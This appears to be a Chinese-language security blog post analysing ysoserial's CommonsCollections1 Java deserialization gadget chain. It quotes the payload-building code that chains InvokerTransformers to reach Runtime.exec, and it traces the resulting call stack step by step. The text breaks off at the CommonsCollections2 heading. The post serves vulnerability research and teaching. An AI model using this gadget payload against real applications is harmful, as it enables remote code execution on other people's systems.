

## ysoserial CommonsCollections1-7模块分析

### 0x00 前言

`ysoserial`中的`CommonsCollections`系列模块，是在实际的Java反序列化漏洞利用中被用到比较多的模块。

### 0x01 CommonsCollections1

这次直接在`Runtime.getRuntime().exec()`下断点，命中后查看栈回溯的各层代码，理清利用链的调用过程。

图1：当`Runtime#exec()`被命中时，函数调用堆栈：


```java
public InvocationHandler getObject(final String command) throws Exception {
    final String[] execArgs = new String[] { command };
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
        new InvokerTransformer("exec",
            new Class[] { String.class }, execArgs),
        new ConstantTransformer(1) };

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

    return handler;
}
```

从`CommonsCollections1#getObject()`中可以知道，返回的是 `AnnotationInvocationHandler`类型，即`payload`为`AnnotationInvocationHandler`对象序列化后的
故栈回溯到`AnnotationInvocationHandler#readObject()`方法即可。

根据上图的函数调用堆栈，结合上一篇分析文章中提到的`Java动态代理`技术，可以比较容易的得出`CommonsCollections1`的利用链，如下：

```
AnnotationInvocationHandler#readObject()
  Map(Proxy)#entrySet()
    AnnotationInvocationHandler#invoke()
      LazyMap#get()
        ChainedTransformer#transform()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#exec()
```

又因为`ChainedTransformer#iTransformers`是一个长度为`5`的数组，而且在上面的函数堆栈中，当`iTransformers[i]#transform()`最后一次被执行时，数组索引`i`为3，所以其实这里`iTransformers[i]#transform()`循环执行了四次，最后才命中`Runtime#exec()`。


```
AnnotationInvocationHandler#readObject()
  Map(Proxy)#entrySet()
    AnnotationInvocationHandler#invoke()
      LazyMap#get()
        ChainedTransformer#transform()
          ConstantTransformer#transform()
          InvokerTransformer#transform()
          InvokerTransformer#transform()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#exec()
```

从`CommonsCollections1#getObject()`可知，`ChainedTransformer#iTransformers`指向的数组如下：
```java
final Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[] {
        String.class, Class[].class }, new Object[] {
        "getRuntime", new Class[0] }),
    new InvokerTransformer("invoke", new Class[] {
        Object.class, Object[].class }, new Object[] {
        null, new Object[0] }),
    new InvokerTransformer("exec",
        new Class[] { String.class }, execArgs),
    new ConstantTransformer(1) };
```

所以`iTransformers[i]#transform()`循环执行四次的过程大概如下：
```
iTransformers[0].transform(object)
—> ConstantTransformer.transform("entrySet")
—> return Runtime.class  (next object)

iTransformers[1].transform(object)
—> InvokerTransformer.transform(Runtime.class)
—> return Method(object) [代表Runtime#getRuntime()]   (next object)

iTransformers[2].transform(object)
—> InvokerTransformer.transform(Method getRuntime)
—> return Runtime(object)  (next object)

iTransformers[3].transform(object)
—> InvokerTransformer.transform(Runtime obj)
—> return obj.exec(cmd) [即调用Runtime#exec(cmd)]
```

最终，`CommonsCollections1`的利用链如下：
```
AnnotationInvocationHandler#readObject()
  Map(Proxy)#entrySet()
    AnnotationInvocationHandler#invoke()
      LazyMap#get()
        ChainedTransformer#transform()
          ConstantTransformer#transform()
          InvokerTransformer#transform()
            Method#invoke()
              Class#getMethod()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#getRuntime()
          InvokerTransformer#transform()
            Method#invoke()
              Runtime#exec()
```

### 0x02 CommonsCollections2

